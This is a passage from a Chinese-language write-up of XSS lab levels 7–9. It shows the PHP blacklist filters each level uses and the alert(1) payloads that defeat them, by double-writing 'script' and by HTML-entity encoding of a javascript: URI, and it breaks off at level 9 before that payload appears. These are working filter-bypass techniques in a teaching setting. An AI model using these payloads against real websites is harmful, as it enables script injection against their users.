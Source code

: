 <pre class="wp-block-code"><code>?keyword=">&lt;Script>alert(1)&lt;/script></code></pre>

## Level7

先都转成小写， 再删除多种关键字。 

<pre class="wp-block-code"><code>$str =strtolower( $_GET&#91;"keyword"]);
$str2=str_replace("script","",$str);
$str3=str_replace("on","",$str2);
$str4=str_replace("src","",$str3);
$str5=str_replace("data","",$str4);
$str6=str_replace("href","",$str5);</code></pre>

利用双写来绕过

<pre class="wp-block-code"><code>url/?keyword=">&lt;scrscriptipt>alert(1)&lt;/scrscriptipt></code></pre>

## Level8

与上一题相比，加入了对双引号的过滤，同时对关键字进行替换。

<pre class="wp-block-code"><code>$str = strtolower($_GET&#91;"keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);</code></pre>
考虑编码绕过。可以用如下的payload：

```
java&#115;cript:alert(1)

java&#x73;cript:alert(1)

java&#x0073;cript:alert(1)

&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;
```



## Level9

strpos 查找 'http://'在字符串中第一次出现的位置。

<pre class="wp-block-code"><code>if(false===strpos($str7,'http://'))
{
  echo '&lt;center>&lt;BR>&lt;a href="您的链接不合法？有没有！">友情链接&lt;/a>&lt;/center>';
        }</code></pre>

结合上一关的思想，可以构造如下的payload：

